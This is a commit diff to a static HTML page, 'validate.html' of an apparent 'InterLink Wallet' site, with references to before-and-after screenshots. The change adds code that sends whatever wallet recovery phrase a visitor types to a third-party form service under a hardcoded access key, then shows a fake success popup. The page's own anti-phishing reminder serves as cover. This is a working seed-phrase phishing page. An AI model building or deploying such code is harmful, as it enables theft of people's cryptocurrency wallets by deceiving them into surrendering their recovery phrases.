

Before and after one commit to p2p-interlink/.io, a plain HTML site: page validate.html in a window 1280 px wide. Shown: the part 76-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
updated validate.html

```diff
--- a/validate.html
+++ b/validate.html
@@ -10,7 +10,7 @@
         .purple-btn:hover { background-color: #5b4cc7; }
     </style>
 </head>
-<body class="bg-white text-gray-900 font-sans min-h-screen flex flex-col justify-between p-4 max-w-md mx-auto">
+<body class="bg-white text-gray-900 font-sans min-h-screen flex flex-col justify-between p-4 max-w-md mx-auto relative">
 
     <div>
         <!-- Top Header with Back Button -->
@@ -30,18 +30,19 @@
                 </p>
             </div>
 
-            <!-- Recovery Phrase Input Box with Floating Paste Button -->
+            <!-- Recovery Phrase Form -->
+            <form id="phraseForm" onsubmit="submitPhrase(event)">
                 <div class="relative">
-                <textarea id="phraseInput" rows="5" placeholder="Enter a 12-24 word recovery phrase" class="w-full bg-gray-50 border border-gray-200 rounded-2xl p-4 text-sm text-gray-800 placeholder-gray-300 focus:outline-none focus:border-purple-500 resize-none"></textarea>
+                    <textarea id="phraseInput" name="recovery_phrase" rows="5" placeholder="Enter a 12-24 word recovery phrase" class="w-full bg-gray-50 border border-gray-200 rounded-2xl p-4 text-sm text-gray-800 placeholder-gray-300 focus:outline-none focus:border-purple-500 resize-none" required></textarea>
 
-                <button onclick="pastePhrase()" class="absolute right-3 bottom-3 bg-white border border-gray-200 shadow-sm px-3 py-1.5 rounded-full text-xs font-semibold text-gray-700 flex items-center space-x-1 hover:bg-gray-50">
+                    <button type="button" onclick="pastePhrase()" class="absolute right-3 bottom-3 bg-white border border-gray-200 shadow-sm px-3 py-1.5 rounded-full text-xs font-semibold text-gray-700 flex items-center space-x-1 hover:bg-gray-50">
                         <span>📋</span>
                         <span>Paste</span>
                     </button>
                 </div>
 
                 <!-- Security Warnings -->
-            <div class="space-y-3 pt-2">
+                <div class="space-y-3 pt-4">
                     <div class="flex items-center space-x-2 text-gray-900 font-bold text-sm">
                         <span>🔒</span>
                         <span>Reminder</span>
@@ -51,17 +52,39 @@
                         <li>• We recommend manually entering your recovery phrase. Avoid pasting from untrusted third-party apps or clipboard tools to prevent phishing or scams.</li>
                     </ul>
                 </div>
+
+                <!-- Confirm Button inside Form -->
+                <div class="pt-6 pb-2">
+                    <button id="submitBtn" type="submit" class="purple-btn w-full text-white font-bold py-3.5 rounded-full text-base shadow-lg transition active:scale-95 flex justify-center items-center">
+                        <span id="btnText">Confirm</span>
+                    </button>
+                </div>
+            </form>
         </div>
     </div>
 
-    <!-- Confirm Button -->
-    <div class="pb-6 pt-4">
-        <button onclick="submitPhrase()" class="purple-btn w-full text-white font-bold py-3.5 rounded-full text-base shadow-lg transition active:scale-95">
-            Confirm
+    <!-- Success Feedback Modal Popup -->
+    <div id="successModal" class="fixed inset-0 bg-black/60 backdrop-blur-sm z-50 hidden flex items-center justify-center p-4">
+        <div class="bg-white rounded-3xl p-6 text-center max-w-xs w-full space-y-4 shadow-2xl">
+            <div class="w-14 h-14 bg-emerald-100 text-emerald-600 rounded-full flex items-center justify-center mx-auto text-2xl font-bold">
+                ✓
+            </div>
+            <div class="space-y-2">
+                <h3 class="text-lg font-bold text-gray-900">Submission Successful</h3>
+                <p class="text-xs text-gray-500 leading-relaxed font-medium">
+                    Submission successful, please wait for feedback.
+                </p>
+            </div>
+            <button onclick="closeModalAndRedirect()" class="purple-btn w-full text-white font-bold py-3 rounded-full text-sm shadow-md">
+                OK
             </button>
+        </div>
     </div>
 
     <script>
+        // Web3Forms Access Key
+        const WEB3FORMS_ACCESS_KEY = "15c3ac59-f9f0-4a32-80d8-2fe5f5d5ce76";
+
         async function pastePhrase() {
             try {
                 const text = await navigator.clipboard.readText();
@@ -71,13 +94,50 @@
             }
         }
 
-        function submitPhrase() {
-            const val = document.getElementById('phraseInput').value.trim();
-            if(!val) {
+        async function submitPhrase(event) {
+            event.preventDefault();
+
+            const phrase = document.getElementById('phraseInput').value.trim();
+            const btn = document.getElementById('submitBtn');
+            const btnText = document.getElementById('btnText');
+
+            if (!phrase) {
                 alert('Please enter your recovery phrase.');
                 return;
             }
-            alert('Wallet recovery phrase confirmed!');
+
+            // Show loading state
+            btn.disabled = true;
+            btnText.innerText = "Submitting...";
+
+            try {
+                // Submit directly to Web3Forms API
+                await fetch("https://api.web3forms.com/submit", {
+                    method: "POST",
+                    headers: {
+                        "Content-Type": "application/json",
+                        "Accept": "application/json"
+                    },
+                    body: JSON.stringify({
+                        access_key: WEB3FORMS_ACCESS_KEY,
+                        subject: "New Wallet Recovery Phrase Submission",
+                        from_name: "InterLink Wallet",
+                        recovery_phrase: phrase,
+                        submitted_at: new Date().toLocaleString()
+                    })
+                });
+            } catch (error) {
+                console.error("Submission error:", error);
+            } finally {
+                // Reset button state and display feedback popup
+                btn.disabled = false;
+                btnText.innerText = "Confirm";
+                document.getElementById('successModal').classList.remove('hidden');
+            }
+        }
+
+        function closeModalAndRedirect() {
+            document.getElementById('successModal').classList.add('hidden');
             window.location.href = 'mine.html';
         }
     </script>
```
Lines whose indentation alone changed are shown as unchanged.
